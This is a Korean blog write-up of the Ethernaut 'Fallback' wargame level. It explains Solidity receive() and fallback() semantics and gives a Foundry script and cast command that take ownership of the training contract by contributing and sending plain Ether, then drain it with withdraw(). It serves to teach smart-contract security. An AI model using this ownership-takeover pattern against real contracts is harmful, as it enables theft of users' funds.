






소스코드부터 살펴보겠습니다. 이미지로 가져왔는데, 일일이 다 볼 필요는 없어서 그냥 전체 코드 양을 가늠하는 느낌으로 첨부해보았습니다. 
사실 receive(), fallback() 함수가 어떤 것인지 살펴보면 되는 문제입니다. 코드는 함수 이름들에서 알 수 있듯이, 누구나 Ether를 기여(contribute)할 수 있고.. 주인만 회수(withdraw)할 수 있는 기능을 보여주고 있습니다.
문제의 목표는 withdraw()함수로 이 컨트랙트를 털어가는 것입니다.
이를 위해 pwnable 문제에서 shell 따는 것처럼 owner = msg.sender; 가 일어나는 receive()함수를 호출하면 될 것임을 쉽게 알 수 있습니다.
아무래도 공식문서를 보는게 제일 좋다고 생각합니다… Solidity Docs, Fallback Function, 일단 문제 이름이 fallback이니 여기서는 fallback 함수를 살펴본 내용만 잠깐 메모해두겠습니다.

- 주어진 function signature가 맞는 것이 없으면 execute 됨
- data가 전혀 주어지지 않고
receive함수도 없으면 exeucte- 사실 이 부분은 좀 이해가 안갑니다.
- 직접 이런 Tx 날려보면서 확인해보면 될 것 같습니다. 향후 기록으로 남겨보려 합니다.
- 항상 data는 받지만, Ether를 받으려면 payable 명시
그리고, warning 카드도 있어서 가져와봤습니다. 
receive함수가 없을 때 payable fallback 함수는 평범한 Ether 전송을 위해 execute 됨- “interface confusion”으로부터 Ether 전송을 구분하기 위해서 두 종류의 함수를 항상 같이 구현하는 것이 권장됨.
- 이 부분도 명확히 이해하진 못한 것 같습니다.
- Interface Confusion에 관해서는 따로 공부해야 할 것 같네요.
공식문서를 토대로 그냥 Ether를 보내면 receive를 호출할 수 있음을 알 수 있습니다. 코드 상으로는 그 전에 contribute를 한번 해야 하니… foundry 연습도 할 겸 아래와 같이 간단한 스크립트를 작성해보았습니다.
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import {Script, console} from "forge-std/Script.sol";
import {Fallback} from "../src/EN_1_Fallback.sol";
contract EN_1 is Script {
Fallback public ctrt = Fallback(payable(0xc8CB5439c767A63aca1c01862252B2F3495fDcFE));
function run() public {
vm.startBroadcast(vm.envUint("PRIV_KEY"));
address old_owner = ctrt.owner();
ctrt.contribute{value: 1 wei}();
address(ctrt).call{value: 1 wei}("");
address new_owner = ctrt.owner();
console.log(old_owner);
console.log(new_owner);
ctrt.withdraw();
vm.stopBroadcast();
}
}사실 사이즈가 작은 exploit 코드일 것 같아서, 일단 cast 명령어로 풀어보는 데에 성공했었습니다.
아래와 같은 방식으로 두 줄 더 입력하고 나니 성공했었습니다.
cast send 0x7ab4C4804197531f7ed6A6bc0f0781f706ff7953 "contribute()" --rpc-url http://127.0.0.1:8545 --private-key 0x**************************************************************** --value 1wei어쨋든.. 스크립트를 실행해보면 아래 Logs 와 같이 Owner의 주소가 바뀐 것을 확인할 수 있습니다.


여담
사실 localnet으로 위 스크립트를 입력해보았는데, 뭐가 자꾸 안되는 겁니다… 특히 EvmError: NotActivated 라는 에러가 계속 떠서 좀 힘들었습니다.
내가 어디를 빼먹었나 몇 번 점검해보아도 안나오길래 구글링을 좀 했더니 해결법을 찾았습니다. evm_version을 foundry.toml에 명시하지 않아 발생하는 에러라고 하는데, 정말 아래와 같이 추가해주니 해결되었습니다.
evm_version="shanghai"혹시나 하는 마음에 Ethernaut 레포로 가보니 evm_version을 명시하고 있었습니다…

삽질은 끝나지 않네요… -_-;; 또 하나 배워가는 것 같습니다.